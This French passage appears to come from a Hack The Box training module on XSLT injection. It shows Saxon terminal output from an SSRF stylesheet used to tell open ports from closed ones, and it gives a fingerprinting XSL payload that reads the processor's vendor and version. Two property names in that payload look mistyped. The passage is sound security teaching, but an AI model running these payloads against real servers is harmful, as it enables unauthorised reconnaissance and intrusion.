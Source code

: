   Transformation par le terminal

```
dsgsec@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.net.ConnectException: Connection refused (Connection refused)
Failed to compile stylesheet. 1 error detected.

```

Vérifiez les différentes réponses ci-dessus lorsque nous atteignons un port ouvert ou fermé. Si vous voulez essayer cela vous-même dans Pwnbox ou sur une machine locale, essayez d'exécuter la `saxonb-xslt`commande ci-dessus une fois sans rien écouter sur le port 5000 et une fois avec un serveur HTTP écoutant sur le port 5000 ( `sudo python3 -m http.server 5000`dans un onglet ou un terminal séparé).

Nous avons présenté quelques fichiers XSL d'identification de pile technologique au début de cette section. Ci-dessous, un de plus, plus grand que les précédents. Essayez de l'utiliser pour reproduire l'exemple ci-dessus.

#### empreintes digitales.xsl

Code : xml

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>

```
